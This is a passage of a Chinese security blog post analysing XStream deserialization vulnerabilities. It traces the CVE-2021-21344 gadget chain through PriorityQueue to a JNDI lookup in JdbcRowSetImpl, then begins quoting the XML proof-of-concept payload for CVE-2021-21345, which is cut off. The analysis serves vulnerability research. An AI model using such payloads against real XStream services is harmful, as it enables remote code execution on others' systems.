 不难看出最外层封装的类是 PriorityQueue，PriorityQueue 是实现了 Serializable 接口并且重写了 readObject 方法的这点从 POC 中 PriorityQueue 的标签上也看得出，结合我们之前对 XStream 的分析 这次我们直接在 PriorityQueued 的 readObject 方法中打上断点。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxyECvRlpeLF1LysIMcyspP8sQgRpWAOiaPay9BRqg1fdjqHBrGFHDGYw/640?wx_fmt=png)

研究过 java 反序列化的同学对 PriorityQueue 这个类肯定不会陌生，经典的 CommonCollections 利用链中有几个就用到了 PriorityQueue，放一下此刻的调用链。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxicFrZlaMK42287UvgWxZLaOWwyGdFk8ddnpXuP7reaKwyYEPxgib8Ywg/640?wx_fmt=png)

然后我们跟进 heapify() 方法，  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxvRBmgLLjDJAauKBBrtgseVbPKAWCqOib7lEP6LmMQCEa8unALrOZkRg/640?wx_fmt=png)

经过一些调试来到了 PriorityQueue 类的 siftDownUsingComparator 方法中如下图所示。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxychDwiaPpw5Tsw6Ojdd4ibhaye6uPmibVEnkcasMakhtJLUhXODR0U2Qg/640?wx_fmt=png)

这里调用了 PriorityQueue 类中存储在 comparator 属性中的对象的 compare 方法，这时我们回过头来再去看一下 POC

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosox1xqpmdqia0LLbKVQXWw1zMrommcmADeSLic5EzDPNVT7mVAbIjCK5hFw/640?wx_fmt=png)

我们可以很直观的从 XStream 序列化的数据中看到 PriorityQueue 类的 comparator 属性中存储的是一个 sun.awt.datatransfer.DataTransferer$IndexOrderComparator 类型的对象 也就是说接下来会调用 DataTransferer$IndexOrderComparator 对象的 compare 方法。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxnKOe5u9R9rNpEicY0k1CPoLOXNBzreE8UAqGIASf1Rv4eoz6GjnPS8g/640?wx_fmt=png)

剩下的过程就是一系列的嵌套调用，最终会执行到 com.sun.rowset.JdbcRowSetImpl 的 getDatabaseMetaData 中，并最终在 JdbcRowSetImpl 的 connect 方法中通过 JNDI 去 lookup 事先封装在 JdbcRowSetImpl 的 dataSource 中的恶意地址  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxxAOBZOmkrmH3UJe1wlwwr22uWAQbGEgBY6CjDkwy2tmQuiap0TWt01A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxEluylHFNNAy4RzWZuFictthWQbLicbDuhoAptjic70FvZHWm3Akcwcuyw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxwVia1b4dFiaCuaH1hiaVAWCib1RxLmRFC1KOHia7GiaELb4nX9C20M3S04UA/640?wx_fmt=png)

最后贴一下调用栈  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/H6W1QCHf9dFH7X7yR92ekXD9gNvUosoxeuqw87FyN4BaJbWMHBRNEcicSJic8ALWYpn8h5D8Nd4Kv3wznBN7cjvA/640?wx_fmt=png)

CVE-2021-21344 分析至此完毕。  

**0x03 CVE-2021-21345**
=======================

先粘贴一下 cve-2021-21345 的 poc

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
```